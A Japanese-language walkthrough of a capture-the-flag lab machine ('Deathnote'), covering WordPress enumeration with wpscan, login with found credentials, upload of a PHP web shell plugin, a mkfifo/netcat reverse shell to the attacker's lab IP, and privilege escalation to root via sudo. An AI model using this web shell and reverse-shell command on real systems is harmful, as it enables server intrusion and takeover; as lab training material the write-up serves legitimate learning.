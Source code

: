 ### ポートスキャンまで同じ
- 22, 80

### Webサイトを見る
- IPアドレスでサイトを見るとdeathnote.vulnにリダイレクトされてサイトが見れないので、vimで以下のように書き換える
-  /etc/hostsを書き換える
  - `192.168.56.115  deathnote.vuln`
- ちなみにブラウザのリンクに直接http://deathnote.vuln/wordpress/を入力してもダメ 
- wordpressで作られているのがわかる

### wpscan
- `wpscan --url http://deathnote.vuln/wordpress/`
  - うまくいかなければ、ブラウザのhttpのとこのリンクをコピーしてくる 
- もしエラー出たら、updateなので一度ネットにつなげて更新する

### 興味深いURLにアクセスする
- `http://192.168.56.115/wordpress/wp-content/uploads`
  - こういうファイルが一覧で表示されるのをディレクトリリスティングと呼ぶ 
- `wget http://deathnote.vuln/wordpress/wp-content/uploads/2021/07/notes.txt`
- `wget http://deathnote.vuln/wordpress/wp-content/uploads/2021/07/user.txt`

### WordPressのユーザを列挙する
- `wpscan --url http://deathnote.vuln/wordpress/ --enumerate u`

### wordpressのログイン画面でログインを試みる
- `http://deathnote.vuln/wordpress/wp-login.php`
- user(kira),password(iamjustic3)はサイトに書いてあるので探してダッシュボードにログイン

### バックドア(実際は常時使えるリバースシェル)の設置を目指す
- banner.php
```
<?php
/*
Plugin Name: PHP Web Shell
Version: 1.0.0
Author: evil user
Author URI: http://hacking.lab
*/
```
- cmd.php
```
<?php
echo system($_REQUEST['cmd']);
?>
```
- `ls`
  - `banner.php cmd.php` この２つのファイルがあるのを確認
- `zip evil banner.php cmd.php`
  - `evil`ができている     
### リバースシェルのセッションを確立する
- `nc -nlvp 4444`
- 次のコードをブラウザのURLに送り込む
- ipアドレスは自分のParrot側の
- `rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 192.168.56.101 4444 > /tmp/f`
- 上のを`https://www.urlencoder.org`でencodeしてコピー
- `http://deathnote.vuln/wordpress/wp-content/plugins/evil/cmd.php?cmd=~`
- `~`のところにエンコードしてコピーしたのを貼り付けてブラウザでアクセスするとシェルを取得できる
### TTYシェルを奪取する
- `python3 -c 'import pty; pty.spawn("/bin/bash")'`
### WordPressの設定ファイルを確認する
- データベースへのアクセスに必要な情報がある
### ユーザを切り替える
- `su l`
### システム内の探索
- /optディレクトリに怪しいディレクトリがある
- どこかに、`case.wav`があるので、サイトのCyberChefでキーワードがデコードされる
### 別のユーザに切り替える
- `su kira`
- さっきのキーワードがパスワード
### Base64でデコードする
- kiraのhomeにBase64でデコードされた暗号がある
### sudoの確認
- `sudo -l`
- kiraは全知全能であることがわかる
### ルートシェルを奪取してフラグファイルを開く
- `sudo su`
- `cd root`
- `cat root.txt`

